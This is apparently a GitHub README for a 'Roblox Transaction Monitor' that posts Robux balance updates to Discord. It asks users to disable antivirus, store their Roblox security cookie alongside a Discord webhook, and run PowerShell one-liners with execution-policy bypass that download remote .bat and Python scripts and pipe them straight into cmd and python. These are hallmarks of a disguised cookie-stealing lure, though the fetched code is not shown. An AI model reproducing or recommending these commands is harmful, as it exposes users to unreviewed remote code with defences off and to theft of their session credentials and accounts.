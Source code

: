 # Roblox Transaction Monitor (CTL Edition)
A command-line tool to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Screenshots

<img width="731" height="192" alt="Screenshot 2025-10-30 122532" src="https://github.com/user-attachments/assets/cef27e07-8c6d-400f-96df-dda8088851b6" />
<img width="417" height="206" alt="image" src="https://github.com/user-attachments/assets/6b6d568c-c5a5-4df1-ab0e-d5cdea0683e0" />

## Features

- [x] Real-time monitoring of Roblox transactions via CTL
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] Lightweight CLI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Quick Start

- [x] Disable antivirus temporarily
- [x] Download and run the CTL script
- [x] Re-enable antivirus once configured

## TODO
- [x] Add time-range filters (day / month / year / total)
- [x] Package as a single portable executable

## Configuration
Create a `config.json` file with:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (seconds)
6. Time-span filter: `day`, `month`, `year`, or `total`

## Usage
Install dependencies:
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/install.bat' | % Content | cmd"
```
Python Stable Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```
Python Dev Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/maindev.py').Content | python"
```
UnInstall dependencies
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/uninstall.bat' | % Content | cmd"
```
## License
This project is licensed under the Apache License - see the LICENSE file for details.